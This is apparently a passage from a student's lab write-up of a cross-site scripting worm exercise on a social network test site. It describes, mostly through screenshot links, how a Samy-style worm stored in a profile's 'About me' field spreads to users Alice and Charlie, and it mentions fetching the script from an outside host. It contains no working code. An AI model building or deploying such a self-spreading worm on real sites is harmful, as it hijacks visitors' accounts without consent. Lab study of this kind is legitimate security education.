

Then I logged in as Alice and made sure that her [file has not been attacked](Task6-2.PNG). Next, Alice will [search](Task6-3.PNG) for Samy. When Alice comes back to her profile, the worm has been injected into her profile:



Then I logged in as Charlie and made sure that his [file has not been attacked](Task6-6.PNG). Next, Charlie will search for Alice:


When Charlie comes back to his profile, the worm has been injected into his profile:



Lastly, I logged in as Samy and checked who has friended him:


As we can see, although Charlie has never viewed Samy's page, because he viewed Alice, who has been affected with the worm, he will also be affected. Additionally, I have tried the link approach and it will work similarly. However, instead of storing the JavaScript code in About me, I will host that code on some website and use the About me to fetch that information. Overall, the worm seems very contagious since everyone without some kind of JavaScript blocker will be affected as soon as they view someone who has been affected by the worm. However, this worm has been interesting to study and pretty fun to do.
